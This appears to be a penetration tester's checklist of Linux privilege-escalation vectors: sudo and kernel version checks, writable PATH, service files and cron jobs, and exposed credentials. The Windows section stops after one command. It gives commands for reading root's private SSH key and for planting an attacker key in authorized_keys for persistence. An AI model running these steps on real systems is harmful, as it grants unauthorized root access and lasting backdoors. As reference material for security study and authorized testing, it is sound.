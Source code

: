 ```yaml
---
description: Check list for common vectors to escalate on Linux & Windows. Use index ->
---
```


# Possible privilege escalation vectors manual checklist

## Linux check list

### Check for sudo current user privileges

```bash
sudo -l                 #Shows what sudo privileges the user has
sudo su -               #If (ALL:ALL) ALL or privileges on "su", switchs to root user

```

### Check if sudo version is outdated and vulnerable

```bash
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
searchsploit sudo 
```

### OS & Kernel outdated

{% hint style="warning" %}
Keep in mind kernel exploits can cause system instability, if this is a production system coordinate with the client first.
{% endhint %}

```bash
cat /etc/os-release 
uname -a

searchsploit versionWeFound
```

### PATH

If you can write on $PATH directories you may be able to exploit some binaries or libraries.

<pre class="language-bash"><code class="lang-bash"><strong>#Oneliner to check if directories in $PATH are writtable 
</strong><strong>for dir in $(echo $PATH | tr ':' ' '); do [ -w "$dir" ] &#x26;&#x26; echo ";) Can write on $dir" || echo "Can't write on $dir"; done
</strong></code></pre>

### Vulnerable software installed

```bash
dpkg -l         #List software on Debian
rpm -qa         #List software on CentOS
```

### Over-privileged processes&#x20;

```bash
ps -aux    
ps -ef
top            #Dynamic real time
top -n 1       #One snapshot
```

### Writable .service files

If you find any writable `.service` files, you could modify them so they execute your scripts with higher privileges, also you could place a shell to establish a backdoor and maintain persistence.

```bash
#Example on a service config file
ExecStart=/tmp/your_script.sh  #Executes the script on service start
```

### Cron jobs

If you have write permissions to cron jobs you could place a script with a reverse shell which would activate once the timer is up granting us access

&#x20;

```bash
#Some places to check
/etc/crontab
/etc/cron.d/
/var/spool/cron/crontabs/root

```

### Exposed credentials

Some files can contain plain text credentials, its common in config files, logs and user history files (`bash_history` or `PSReadLine` in Windows). We could also check for password reuse as passwords used for non-critical software could also be used for root for example.

### SSH Keys

If we have access to the `.ssh` directory we may find there their private ssh keys and use them to log as the user without credentials with the `-i` flag

```bash
#Common places
/home/user/.ssh/id_rsa
/root/.ssh/id_rsa

#How to use it in our machine
nano id_rsa
chmod 600 id_rsa   #We change privileges so the ssh server doesn't set off the alarms and prevents it from working
ssh user@ip -i id_rsa

```

If we can access to a users `.ssh` directory we could place our public key at\
`/home/user/.ssh/authorized_keys` this way we could have a more stable access as we can ssh into the system, of course after we first exploited and gained a shell.&#x20;

```bash
#First we generate the key pair in our machine with
ssh-keygen -f key

#This will give us 2 files:
#Private "key" wich we will use with ssh -i
#Public key "key.pub" that we will copy into the victim's directory or root
echo "key.pub contents" >> /root/.ssh/authorized_keys
echo "key.pub contents" >> /home/user/.ssh/authorized_keys

ssh root@ip -i key
ssh user@ip -i key 

```







***

## Windows

### Check for vulnerable software installed

```
dir C:\Program Files
```

